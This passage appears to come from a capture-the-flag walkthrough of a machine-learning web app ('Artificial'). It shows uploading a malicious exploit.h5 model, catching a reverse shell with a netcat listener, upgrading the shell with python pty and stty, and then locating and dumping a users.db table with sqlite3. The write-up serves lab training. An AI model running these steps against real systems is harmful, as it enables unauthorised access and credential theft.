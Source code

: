 Upload `exploit.h5`:

![artificialuploadmodel.png](artificialuploadmodel.png)

### Listener

Set up a listener:

```bash
nc -lvnp 6666
```

### Trigger Shell

click on view predictions:

![viewpredicitons.png](viewpredicitons.png)

We receive a shell.

### Get TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+Z]
stty raw -echo; fg
export TERM=xterm
```

## Post Exploitation

### Enumerate .db files

```bash
find / -name "*.db*" 2>/dev/null
sqlite3 /home/app/app/instance/users.db
```

Tables:

```sql
.tables
SELECT * FROM user;
```
